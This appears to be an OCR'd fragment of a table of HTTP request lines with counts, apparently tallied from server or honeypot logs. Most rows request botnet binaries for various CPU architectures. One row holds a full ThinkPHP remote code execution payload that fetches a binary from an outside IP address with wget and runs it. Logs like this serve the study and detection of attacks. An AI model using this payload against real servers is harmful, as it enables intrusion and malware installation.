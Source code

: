 | 271 |                     2 | GET /hidakibest.arm5 HTTP/1.1                                                                                                                                                                                                                                                                                                                                 |
| 272 |                     2 | GET /hidakibest.sparc HTTP/1.1                                                                                                                                                                                                                                                                                                                                |
| 273 |                     2 | GET /hidakibest.ppc HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 274 |                     2 | GET /Fantazy/Fantazy.x86 HTTP/1.1                                                                                                                                                                                                                                                                                                                             |
| 275 |                     2 | GET /index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.201/bins/x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp' HTTP/1.1                                                                                                                     |
| 276 |                     2 | GET /ee/armv7l HTTP/1.1                                                                                                                                                                                                                                                                                                                                       |
| 277 |                     2 | GET /ee/armv6l HTTP/1.1                                                                                                                                                                                                                                                                                                                                       |
| 278 |                     2 | GET /vv/i686 HTTP/1.1                                                                                                                                                                                                                                                                                                                                         |
| 279 |                     2 | GET /vv/arc HTTP/1.1                                                                                                                                                                                                                                                                                                                                          |
| 280 |                     2 | GET /m-6.8-k.Sakura HTTP/1.1                                                                                                                                                                                                                                                                                                                                  |
| 281 |                     2 | GET /mipsel HTTP/1.1                                                                                                                                                                                                                                                                                                                                          |
| 282 |                     2 | GET /Fantazy/Fantazy.arm6 HTTP/1.1                                                                                                                                                                                                                                                                                                                            |
| 283 |                     2 | GET /EdiAf.spc HTTP/1.1                                                                                                                                                                                                                                                                                                                                       |
| 284 |                     2 | GET /EdiAf.m68k HTTP/1.1                                                                                                                                                                                                                                                                                                                                      |
| 285 |                     2 | GET /EdiAf.arm HTTP/1.1                                                                                                                                                                                                                                                                                                                                       |